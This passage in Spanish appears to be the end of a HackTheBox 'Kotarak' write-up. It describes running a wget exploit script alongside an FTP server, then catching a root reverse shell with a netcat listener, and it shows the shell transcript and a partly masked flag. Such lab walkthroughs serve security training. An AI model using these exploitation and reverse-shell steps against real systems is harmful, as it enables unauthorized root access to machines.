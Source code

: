 Como necesitamos dos consolas para ejecutar el ataque nos abrimos una sesión con Tmux con el comando `tmux new -s pwned` y spliteamos la consola con `Ctrl+b / Shift+2`. En una consola ejecutamos `authbind wget-exploit.py` y en la otra `authbind python -m pyftpdlib -p21 -w`. Nos ponemos en escucha en el puerto 443 y esperamos que surja la magia. Accedemos al contenedor y localiazamos la flag que nos faltaba.

<img src="/assets/HTB/Kotarak/attack.png">

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.1.117] 46122
/bin/sh: 0: can t access tty; job control turned off
# whoami
root
# hostname -I
10.0.3.133
# cat root.txt
950d1425795dfd382*************** 
```

Hemos completado la máquina **Kotarak** de HackTheBox!! Happy Hacking!!

<img src="/assets/HTB/Kotarak/pwned.png">